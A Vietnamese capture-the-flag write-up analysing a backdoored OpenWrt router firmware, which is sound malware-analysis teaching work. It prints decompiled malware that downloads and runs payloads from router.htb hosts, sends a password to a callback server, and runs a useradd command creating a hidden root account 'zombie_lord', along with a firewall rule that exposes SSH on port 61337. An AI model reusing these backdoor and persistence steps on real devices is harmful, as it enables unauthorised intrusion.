# Challenge ZombieNet

## 1. Đầu vào challenge

Đầu vào challenge cho file `openwrt-ramips-mt7621-xiaomi_mi-router-4a-gigabit-squashfs-sysupgrade.bin`, đây là file firmware OpenWrt dạng **u-boot legacy uImage**, kiến trúc **MIPS**.



### Kiến thức ngoài lề

Firmware là phần mềm nằm trong thiết bị nhúng được đóng gói dưới dạng `u-boot legacy uImage`, tức image có thể được bootloader **U-Boot** nạp khi thiết bị khởi động. Phần hệ điều hành bên trong là **OpenWrt Linux**, chạy trên kiến trúc **MIPS** — kiến trúc CPU thường gặp trong các thiết bị nhúng/router.

---

## 2. Extract root filesystem của firmware

Giờ extract root filesystem SquashFS bên trong firmware bằng `binwalk`:

```bash
binwalk -e openwrt-ramips-mt7621-xiaomi_mi-router-4a-gigabit-squashfs-sysupgrade.bin
```



Sau khi extract, tìm tới folder `squashfs-root` — nơi chứa root filesystem. Từ đề bài biết được attacker/ZombieNet có thể duy trì truy cập vào thiết bị, nên giờ cần tra cứu về **OpenWrt boot process**.



Check thử các folder này có gì để lần ra cơ chế boot/init và persistence tiếp.





Trong đó, khi tra cứu về các service mặc định của OpenWrt thì biết được đại khái chức năng của chúng:

- `boot`: Thiết lập hệ thống cơ bản và mount các phân vùng ngay khi vừa bật máy.
- `bootcount`: Đếm số lần router đã khởi động.
- `cron`: Trình quản lý tác vụ, chịu trách nhiệm chạy các lệnh ngầm theo lịch trình đã đặt.
- `dnsmasq`: Máy chủ DNS và DHCP.
- `done`: Chạy cuối cùng để đánh dấu quá trình khởi động hệ thống đã hoàn tất.
- `dropbear`: Máy chủ SSH, cho phép đăng nhập vào router bằng lệnh để cấu hình.
- `firewall`: Tường lửa của router.
- `gpio_switch`: Nhận diện và xử lý các thao tác ấn nút vật lý trên router.
- `led`: Điều khiển trạng thái bật/tắt/nhấp nháy của các đèn LED.
- `log`: Quản lý và lưu trữ log.
- `network`: Quản lý toàn bộ các kết nối mạng.
- `odhcpd`: Quản lý cấp phát địa chỉ IPv6.
- `packet_steering`: Tính năng tối ưu CPU.
- `sysctl`: Tải và sử dụng các thông số cấp thấp để tối ưu hiệu suất mạng và bảo mật.
- `sysfixtime`: Đặt tạm thời gian cho router khi vừa bật.
- `sysntpd`: Tự động cập nhật ngày giờ.
- `system`: Các cài đặt chung của thiết bị.
- `umount`: Ngắt kết nối an toàn các phân vùng và bộ nhớ khi tắt.
- `urandom_seed`: Cấp dữ liệu random cho các thuật toán mã hóa khi router vừa khởi động.
- `urngd`: Trình tạo số ngẫu nhiên liên tục để tạo khóa mã hóa bảo mật cho Wi-Fi, SSH và HTTPS.
- `wpad`: Xử lý mật khẩu Wi-Fi, xác thực kết nối và chạy các giao thức mã hóa như WPA2, WPA3.

Đặc biệt là `dead-reanimation`. Khi tìm không thấy trong các service mặc định của OpenWrt, đồng thời trong `/etc/rc.d` lại có symlink:

```text
S95dead-reanimation -> ../init.d/dead-reanimation
```

cho thấy service này được cấu hình để tự chạy khi hệ thống khởi động.

Tiếp tục đọc nội dung init script `dead-reanimation`:



Biến `PROG` trỏ tới `/sbin/zombie_runner`.

Tiếp tục đọc `/sbin/zombie_runner`.



File này đang trỏ tới `/usr/bin/dead-reanimation`. Và sau mỗi lần chạy, nó chờ `600` giây rồi chạy lại.

Tiếp tục đọc `./usr/bin/dead-reanimation`, file này không đọc được trực tiếp, thử dùng `strings` quét nhanh qua.



Nhận thấy trong binary có nhiều hàm liên quan đến `curl` như `curl_easy_init`, `curl_easy_setopt`, `curl_easy_perform`, `curl_easy_cleanup`, cho thấy chương trình có khả năng thực hiện request HTTP/HTTPS tới một server bên ngoài.

Kết hợp với việc `/sbin/zombie_runner` chạy `/usr/bin/dead-reanimation` lặp lại sau mỗi `600` giây, có thể đoán rằng `dead-reanimation` định kỳ liên hệ tới một remote server/C2 để tải payload, nhận cấu hình hoặc kiểm tra lệnh mới từ attacker.

---

## 3. Mở `dead-reanimation` bằng Ghidra

Decompile bằng Ghidra rồi tìm tới hàm `entry()`.



Thấy nó đang gọi hàm `FUN_00400664()`, tiếp tục tìm đến hàm đó.



Từ hàm này, `__libc_start_main()` nhận tham số `FUN_00400cf4`, vậy hàm `FUN_00400cf4()` chính là `main`.

```c
undefined4 FUN_00400cf4(void)

{
  int iVar1;
  char local_a8 [24];
  char local_90 [20];
  char acStack_7c [60];
  char acStack_40 [56];

  local_a8[0] = -0x10;
  local_a8[1] = 'e';
  local_a8[2] = 'o';
  local_a8[3] = -0x66;
  local_a8[4] = '~';
  local_a8[5] = -0x1c;
  local_a8[6] = -0xc;
  local_a8[7] = -0x53;
  local_a8[8] = 'i';
  local_a8[9] = 'p';
  local_a8[10] = -0x6d;
  local_a8[0xb] = 'N';
  local_a8[0xc] = 'U';
  local_a8[0xd] = -0x1f;
  local_a8[0xe] = -0x3b;
  local_a8[0xf] = -0x72;
  local_a8[0x10] = -0x3f;
  local_a8[0x11] = '_';
  local_a8[0x12] = -0xb;
  local_a8[0x13] = ':';
  local_a8[0x14] = 0;
  local_90[0] = -0x10;
  local_90[1] = 'e';
  local_90[2] = 'o';
  local_90[3] = -0x66;
  local_90[4] = '~';
  local_90[5] = -0xe;
  local_90[6] = -0xc;
  local_90[7] = -0x53;
  local_90[8] = 'c';
  local_90[9] = 'F';
  local_90[10] = -0x74;
  local_90[0xb] = 'J';
  local_90[0xc] = '@';
  local_90[0xd] = -0x16;
  local_90[0xe] = -0x7e;
  local_90[0xf] = -0x70;
  local_90[0x10] = -0x38;
  local_90[0x11] = '\0';
  memcpy(acStack_7c,&DAT_00400f74,0x3a);
  memcpy(acStack_40,&DAT_00400fb0,0x37);
  FUN_00400c04(local_a8);
  FUN_00400c04(local_90);
  FUN_00400c04(acStack_7c);
  FUN_00400c04(acStack_40);
  iVar1 = access(local_a8,0);
  if (iVar1 == -1) {
    FUN_00400b20(acStack_7c,local_a8);
    chmod(local_a8,0x1ff);
  }
  iVar1 = access(local_90,0);
  if (iVar1 == -1) {
    FUN_00400b20(acStack_40,local_90);
    chmod(local_90,0x1ff);
  }
  system(local_90);
  system(local_a8);
  return 0;
}
```

### Phân tích

Ở đây có 4 nhóm dữ liệu:

```c
char local_a8 [24];
char local_90 [20];
char acStack_7c [60];
char acStack_40 [56];
```

Sau đó chương trình gán nhiều byte lạ vào `local_a8`, `local_90`, rồi copy dữ liệu từ `DAT_00400f74`, `DAT_00400fb0` vào `acStack_7c`, `acStack_40`.

Các chuỗi này nhìn bị mã hóa/obfuscate, vì có nhiều byte âm như:

```c
local_a8[0] = -0x10;
local_a8[3] = -0x66;
local_90[0xe] = -0x7e;
```

Sau đó cả 4 chuỗi đều được đưa vào:

```c
FUN_00400c04(local_a8);
FUN_00400c04(local_90);
FUN_00400c04(acStack_7c);
FUN_00400c04(acStack_40);
```

Vậy khả năng cao:

```text
FUN_00400c04 = hàm decode/deobfuscate string
```

Sau khi decode xong, chương trình làm:

```c
iVar1 = access(local_a8,0);
if (iVar1 == -1) {
    FUN_00400b20(acStack_7c,local_a8);
    chmod(local_a8,0x1ff);
}
```

Nghĩa là:

- nếu file `local_a8` chưa tồn tại
- gọi `FUN_00400b20(acStack_7c, local_a8)`
- rồi `chmod` file đó thành executable

Tương tự với `local_90` và `acStack_40`.

Cuối cùng:

```c
system(local_90);
system(local_a8);
```

tức là nó chạy 2 file đã decode đường dẫn.



### Logic của hàm `FUN_00400c04()`

Hàm này duyệt từng byte trong chuỗi đầu vào rồi XOR với một key nằm tại `DAT_00400f24`.

Đến đây có thể tổng hợp lại flow phân tích như sau:

```text
Firmware OpenWrt
        ↓
extract SquashFS root filesystem
        ↓
kiểm tra cơ chế boot/init của OpenWrt
        ↓
phát hiện service lạ: /etc/init.d/dead-reanimation
        ↓
service này được enable bằng symlink:
S95dead-reanimation -> ../init.d/dead-reanimation
        ↓
dead-reanimation gọi /sbin/zombie_runner
        ↓
zombie_runner chạy lặp /usr/bin/dead-reanimation mỗi 600 giây
        ↓
        ↓
từ entry() lần tới __libc_start_main()
        ↓
xác định FUN_00400cf4 là main
        ↓
trong main có 4 buffer chứa byte lạ
        ↓
cả 4 buffer đều được truyền vào FUN_00400c04()
        ↓
FUN_00400c04() chính là hàm decode chuỗi bằng XOR
```

Sử dụng script để decode các string lấy từ file `dead-reanimation`:

```python
from pathlib import Path
import sys

data = Path(sys.argv[1]).read_bytes()
BASE = 0x400000

def read(va, n):
    return data[va - BASE : va - BASE + n]

def cstr(va, n):
    b = read(va, n)
    return b.split(b"\x00")[0]

def dec(buf, key):
    return bytes(b ^ key[i % 32] for i, b in enumerate(buf)).decode()

key = read(0x400f24, 32)

local_a8 = bytes([
    0xf0, 0x65, 0x6f, 0x9a, 0x7e, 0xe4, 0xf4, 0xad,
    0x69, 0x70, 0x93, 0x4e, 0x55, 0xe1, 0xc5, 0x8e,
    0xc1, 0x5f, 0xf5, 0x3a
])

local_90 = bytes([
    0xf0, 0x65, 0x6f, 0x9a, 0x7e, 0xf2, 0xf4, 0xad,
    0x63, 0x46, 0x8c, 0x4a, 0x40, 0xea, 0x82, 0x90,
    0xc8
])

print("local_a8   =", dec(local_a8, key))
print("local_90   =", dec(local_90, key))
print("acStack_7c =", dec(cstr(0x400f74, 0x3a), key))
print("acStack_40 =", dec(cstr(0x400fb0, 0x37), key))
```

### Giải thích

Trong Ghidra, binary được map tại base `0x400000`, nên khi muốn đọc dữ liệu từ một địa chỉ ảo như `0x400f24` thì chuyển sang offset trong file bằng:

```python
offset = virtual_address - BASE
```

Hàm `dec()` mô phỏng lại `FUN_00400c04()`: mỗi byte của dữ liệu bị mã hóa sẽ được XOR với byte tương ứng trong key, key được lặp lại theo chu kỳ 32 byte.

Key được lấy trực tiếp từ `DAT_00400f24`:

```python
key = read(0x400f24, 32)
```

Hai buffer `local_a8` và `local_90` được copy lại từ phần decompile của hàm `main`, còn `acStack_7c` và `acStack_40` được đọc trực tiếp từ hai vùng data `DAT_00400f74` và `DAT_00400fb0`.

Cuối cùng thu được:



Mapping trực tiếp URL với các path file từ `main()`:



```text
http://configs.router.htb/dead_reanimated_mNmZTMtNjU3YS00
-> /tmp/dead_reanimated

http://configs.router.htb/reanimate.sh_jEzOWMtZTUxOS00
-> /tmp/reanimate.sh
```

Giờ tải 2 file đó về để phân tích tiếp. Mở file `reanimate.sh` trước thì thấy được trong `auth_token` có đoạn base64.



### Phân tích

```bash
WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)
```

lấy:

- `WAN_IP` = IP phía WAN của router
- `ROUTER_IP` = IP LAN của router

Sau đó script tạo config firewall:

```text
config redirect
    option dest 'lan'
    option target 'DNAT'
    option name 'share'
    option src 'wan'
    option src_dport '61337'
    option dest_port '22'
    option family 'ipv4'
    list proto 'tcpudp'
    option dest_ip '${ROUTER_IP}'
```

tức là attacker đang mở một đường vào SSH qua port `61337`.

Decode đoạn base64 thì thu được phần đầu của flag.



---

## 4. Phân tích file `dead_reanimated`

Tiếp tục phân tích file `dead_reanimated`.



File này cũng là file **ELF MIPS**, mở bằng Ghidra rồi tìm tới hàm `main()`:

```c
undefined4 main(void)

{
  size_t sVar1;
  char *param2;
  int iVar2;
  FILE *pFVar3;
  __uid_t _Var4;
  passwd *ppVar5;
  undefined4 uVar6;
  char cStack_169;
  undefined4 local_168;
  undefined1 auStack_164 [252];
  char acStack_68 [44];
  char acStack_3c [28];
  char local_20 [16];

  builtin_strncpy(local_20,"zombie_lord",0xc);
  memcpy(acStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(acStack_3c,&DAT_00400d50,0x1b);
  sVar1 = strlen(acStack_3c);
  param2 = malloc(sVar1 << 2);
  init_crypto_lib(acStack_68,acStack_3c,(int)param2);
  iVar2 = curl_easy_init();
  if (iVar2 == 0) {
    uVar6 = 0xfffffffe;
  }
  else {
    curl_easy_setopt(iVar2,0x2712,"http://callback.router.htb");
    curl_easy_setopt(iVar2,0x271f,param2);
    curl_easy_perform(iVar2);
    curl_easy_cleanup(iVar2);
    pFVar3 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar3);
    fclose(pFVar3);
    (&cStack_169)[sVar1] = '\0';
    iVar2 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (iVar2 == 0) {
      _Var4 = getuid();
      if ((_Var4 == 0) || (_Var4 = geteuid(), _Var4 == 0)) {
        ppVar5 = getpwnam(local_20);
        if (ppVar5 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord"
                );
        }
        pFVar3 = popen("passwd zombie_lord","w");
        fprintf(pFVar3,"%s\n%s\n",param2,param2);
        pclose(pFVar3);
        uVar6 = 0;
      }
      else {
        uVar6 = 0xffffffff;
      }
    }
    else {
      uVar6 = 0xffffffff;
    }
  }
  return uVar6;
}
```

### Phân tích



Đầu tiên nó set username:

```text
zombie_lord
```

Sau đó nó có một chuỗi hash/key:

```text
d2c0ba035fe58753c648066d76fa793bea92ef29
```

Rồi lấy thêm dữ liệu ở `DAT_00400d50`.





`param2` được tạo ra từ `acStack_68` và `acStack_3c`. Chuỗi `param2` này được dùng làm password.





Tiếp theo nó gửi `param2` về:

```text
http://callback.router.htb
```



Sau đó nó đọc hostname ở `/proc/sys/kernel/hostname` và so sánh với:

```text
HSTERUNI-GW-01
```

Nếu đúng hostname và đang chạy quyền root, kiểm tra user `zombie_lord` đã tồn tại chưa:

```c
ppVar5 = getpwnam(local_20);
```

Nếu chưa có thì tạo user:

```c
system("opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord");
```



Giờ cần tiếp tục tìm đến hàm `init_crypto_lib()` để xem `param2` được tạo ra như thế nào, vì trong `main()` chuỗi `param2` này thấy nó đang gọi tới 2 hàm `key_rounds_init()` và `perform_rounds()`.

```c
undefined4 key_rounds_init(char *param_1,undefined1 *param_2)

{
  byte bVar1;
  size_t sVar2;
  int iVar3;
  undefined1 *puVar4;
  int iVar5;
  byte *pbVar6;
  int iVar7;

  sVar2 = strlen(param_1);
  iVar3 = 0;
  puVar4 = param_2;
  do {
    *puVar4 = (char)iVar3;
    iVar3 = iVar3 + 1;
    puVar4 = param_2 + iVar3;
  } while (iVar3 != 0x100);
  iVar3 = 0;
  iVar5 = 0;
  do {
    iVar7 = iVar3 % (int)sVar2;
    if (sVar2 == 0) {
      trap(0x1c00);
    }
    pbVar6 = param_2 + iVar3;
    bVar1 = *pbVar6;
    iVar3 = iVar3 + 1;
    iVar5 = (int)((int)param_1[iVar7] + (uint)bVar1 + iVar5) % 0x100;
    *pbVar6 = param_2[iVar5];
    param_2[iVar5] = bVar1;
  } while (iVar3 != 0x100);
  return 0;
}
```

